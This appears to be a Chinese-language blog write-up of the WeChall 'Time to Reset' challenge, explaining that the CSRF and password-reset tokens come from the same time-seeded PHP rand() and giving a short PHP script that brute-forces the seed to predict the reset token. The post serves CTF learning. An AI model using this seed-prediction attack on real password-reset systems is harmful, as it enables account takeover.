 ```yaml
---
title: Time to Reset
author: rk700
layout: post
tags:
  - PHP
  - wechall
---
```

[http://www.wechall.net/challenge/time\_to\_reset/index.php][1]  
最初的想法还是和注入有关，试了几次发现邮件地址不能包含特殊字符……

再从头开始看代码，发现了不自然的地方：  
提交email的表格里有CSRF的token，感觉似乎在见过的题目里并不常见；其实这也还说得过去，但是token的生成方式太可疑了，用的是和reset token同样的函数；更可疑的是，CSRF token只是生成了，并没有任何对其的检查来防范CSRF。所以这个是用来让我们暴力srand的seed的

首先生成32位的CSRF token，然后是16位的rest token。于是我们可以暴力破解，而`time()`的值可以从RFI那题里得到

下面是用来破解的代码, `ttr_random`函数就直接用题里的代码

{% highlight php %}
<?php
function ttr_random($len, $alpha='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789')
{
    $alphalen = strlen($alpha) - 1;
    $key = '';
    for($i = 0; $i < $len; $i++)
    {
        $key .= $alpha[rand(0, $alphalen)];
    }
    return $key;
}

$time=1403111639;
for($i=0; $i<255; $i++) {
    srand($time+$i);
    $csrf=ttr_random(32);
    $real='BLQChCcpFPZoACf9VpoeKEes4k2BpeDR';
    if($csrf === $real) {
        echo ttr_random(16).PHP_EOL;
    }
}
?>
{% endhighlight %}

 [1]: http://www.wechall.net/challenge/time_to_reset/index.php